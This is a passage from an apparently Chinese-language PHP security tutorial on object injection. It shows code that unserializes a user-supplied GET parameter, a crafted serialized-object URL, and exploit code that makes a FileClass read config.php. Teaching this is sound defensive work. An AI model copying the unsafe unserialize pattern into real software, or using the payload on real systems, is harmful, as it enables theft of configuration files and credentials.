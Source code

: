 ```
        return file_get_contents($this->filename);
    }
}

// Main User class

class User
{
    // Class data

    public $age = 0;
    public $name = '';

    // 允许对象作为一个字符串输出上面的data

    public function __toString()
    {
        return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
}

// 用户可控

$obj = unserialize($_GET['usr_serialized']);

// 输出 __toString

echo $obj;

?>

```

so,我们构造url

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}

```

再想想，如果我们用序列化调用 FileClass呢

我们创建利用代码

```
<?php

$fileobj = new FileClass();
$fileobj->filename = 'config.php';

echo serialize($fileobj);

?>

```
